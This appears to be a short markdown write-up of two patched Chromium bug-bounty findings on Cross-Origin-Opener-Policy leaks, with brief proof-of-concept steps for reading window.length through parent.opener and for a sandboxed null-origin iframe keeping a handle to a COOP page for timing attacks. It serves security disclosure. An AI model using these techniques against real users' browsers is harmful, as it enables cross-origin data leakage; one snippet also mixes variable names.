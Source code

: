 ```yaml
---
title: COOP leaks
---
```


# Leaking window.length without opener reference (Awarded $2000)

It allowed leaking `window.length` from a COOP protected page via `parent.opener.length`

1. <https://example.com/> run `open(); // cross-origin page`
2. `opener.location = 'https://first-party-test.glitch.me/?coop=same-origin'; // Page with COOP`
3. `let frame = document.createElement('iframe'); f.src = "https://example.org"; document.body.appendChild(f); // Must be cross origin`
4. In context of iframe do `parent.opener.length` to get a new length just create a new cross-origin iframe.

This issue was fixed in <https://issues.chromium.org/40059056>

# COOP pages got blocked when from a "null" origin but didn't get cut (Awarded $3000)

The iframe had access to "w" which could be used to do navigation based timings attacks.

```html
<iframe
  srcdoc="<script>w = open('https://myactivity.google.com/myactivity')</script>"
  sandbox="allow-scripts allow-popups"></iframe>
```

This issue was fixed in <https://issuetracker.google.com/40057526>
